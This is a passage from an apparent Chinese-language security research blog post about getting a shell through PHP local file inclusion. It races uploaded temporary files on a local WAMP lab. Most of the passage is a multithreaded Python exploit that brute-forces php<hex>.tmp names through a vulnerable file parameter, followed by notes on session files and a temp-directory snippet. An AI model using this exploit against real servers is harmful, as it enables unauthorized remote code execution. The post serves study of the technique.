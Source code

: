```
    num=int(num)-1
    namelist=[]
    for i in range(4096*num+1,4096*(num+1)+1):
        num=hex(i).replace('0x','')
        namelist.append(num)
    #print(namelist)
    error='failed to open stream'
    for t in namelist:
        target='http://127.0.0.1/baohan.php?file=g:/wamp64/tmp/php'+t+'.tmp'
        print('[+]start:'+target)
        r=requests.get(target)
        if error in r.text:
            continue
        else:
            print('[+]got it!you can see it at:\n'+target)
            break
        

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,40): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,40):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

    for i in range(1,17):
        threading.Thread(target=getshell,args=(i,)).start()
```

>可以看到确实能成功getshell，只不过感觉条件比较苛刻...?或许该研究一下该怎么定向让php崩溃，结合这个点就可以无需phpinfo界面getshell

<img src='https://0xfay.github.io/public/image/015552.png'>

>另外，我也发现sess文件中也存在一些文件莫名其妙的保留了下来，比如这个dvwa留下的session文件，也尝试过写入但是无果，且我每在dvwa界面做什么操作，该文件的修改日期都会更新，但内容从来不变

<img src='https://0xfay.github.io/public/image/121029.png'>

顺便记录一个回显临时目录的代码，说不定会有用：

```
<?php
$temp_file = tempnam(sys_get_temp_dir(), 'aaa');
echo $temp_file."\n";
```

大概内容就这么多。